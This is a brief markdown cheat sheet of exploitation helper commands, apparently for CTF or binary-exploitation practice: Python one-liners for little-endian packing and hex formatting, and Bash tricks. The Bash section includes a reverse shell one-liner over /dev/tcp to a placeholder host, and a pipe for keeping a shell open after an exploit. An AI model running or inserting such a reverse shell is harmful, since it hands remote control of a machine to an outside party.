 
# Useful Scripts & Commands 🧰

## Commands:

### Python 

1. Print an adress in little endian:
`python -c "import struct; print(struct.pack('<I',0xdeadbeef))"`
2. Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`


### Bash

1. Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
2. Simple Bash revshell: `bash -i >& /dev/tcp/{host_ip}/{port} 0>&1`

